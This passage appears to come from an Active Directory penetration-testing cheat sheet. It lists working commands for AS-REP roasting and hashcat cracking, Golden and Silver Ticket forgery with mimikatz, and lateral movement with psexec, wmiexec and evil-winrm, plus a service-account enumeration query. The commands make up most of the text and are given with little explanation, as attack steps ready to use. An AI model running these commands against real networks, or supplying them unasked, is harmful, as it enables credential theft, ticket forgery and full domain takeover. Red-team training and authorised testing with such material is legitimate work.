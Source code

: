 #### 💣 AS-REP Roasting

Users with _Do not require pre-authentication_ flag set.

```bash
GetNPUsers.py example.local/ -usersfile users.txt -format hashcat -outputfile asrep.hash
hashcat -m 18200 asrep.hash rockyou.txt
```

#### ⚙️ Golden Ticket

Full domain compromise by forging TGT.

```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:example.local /sid:S-1-5-21-111222333 /krbtgt:HASH /ticket:golden.kirbi"
```

#### 🧠 Silver Ticket

Forged TGS for a specific service.

```bash
mimikatz.exe "kerberos::golden /user:svc_admin /domain:example.local /sid:S-1-5-21-111222333 /target:dc.example.local /service:cifs /rc4:HASH"
```

***

### V. ⚙️ Lateral Movement Techniques

| Technique    | Tool             | Description                         |
| ------------ | ---------------- | ----------------------------------- |
| **PsExec**   | impacket-psexec  | Executes commands via SMB service.  |
| **WMI Exec** | impacket-wmiexec | Remote command execution over WMI.  |
| **SMBExec**  | impacket-smbexec | Fileless remote shell.              |
| **WinRM**    | evil-winrm       | PowerShell-based access for admins. |

#### 🧩 Examples

```bash
psexec.py Administrator@10.0.0.5 cmd.exe
wmiexec.py user:pass@10.0.0.5
evil-winrm -i 10.0.0.5 -u Administrator -p Password123
```

***

### VI. 🧠 Privilege Escalation within Domain

#### ⚙️ Find Misconfigured Service Accounts

```bash
Get-ADUser -Filter * -Properties ServicePrincipalName
```
